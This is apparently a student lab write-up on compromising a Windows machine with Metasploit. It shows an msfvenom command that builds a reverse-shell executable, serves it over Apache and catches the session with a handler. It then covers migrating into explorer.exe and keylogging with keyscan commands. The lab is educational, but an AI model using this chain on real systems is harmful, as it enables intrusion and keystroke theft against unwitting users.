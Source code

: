 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![Screenshot 2024-04-16 143132](https://github.com/Vinothini1711/Echoserver/assets/144300204/a807691c-37df-4ded-9242-4062b6d5be95)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![Screenshot 2024-04-16 143439](https://github.com/Vinothini1711/Echoserver/assets/144300204/e1de975c-93ad-4167-a7c6-921eae9a9801)
copy the fun.exe into the apache /var/www/html folder

![Screenshot 2024-04-16 143448](https://github.com/Vinothini1711/Echoserver/assets/144300204/eaf50b1f-801f-4515-afb5-6727f11a58a7)

Start apache server
sudo systemctl apache2 start

![Screenshot 2024-04-16 143511](https://github.com/Vinothini1711/Echoserver/assets/144300204/ab7fe513-a6a8-4e23-b8e5-1665195b344c)

Check the status of apache2

![Screenshot 2024-04-16 143554](https://github.com/Vinothini1711/Echoserver/assets/144300204/9857a3f9-147d-41a7-a1c3-32274f494a18)

Invoke msfconsole:

![Screenshot 2024-04-16 143610](https://github.com/Vinothini1711/Echoserver/assets/144300204/cbf109d5-bb84-4d84-af83-893a0c7ddad8)
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
![Screenshot 2024-04-16 143844](https://github.com/Vinothini1711/Echoserver/assets/144300204/7defa3b3-ad2f-4ed8-b026-862a5b0a8325)
exploit
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![download](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a6b73051-a143-4740-b3d9-27c23762218f)
Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![exploit](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/b46a08f7-a9fc-4e71-8fdd-170ee187dd22)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/35be18d7-51b0-4529-8fd8-76740f0c9ba6)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d40a4428-0c65-4855-be1d-c278766082fb)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
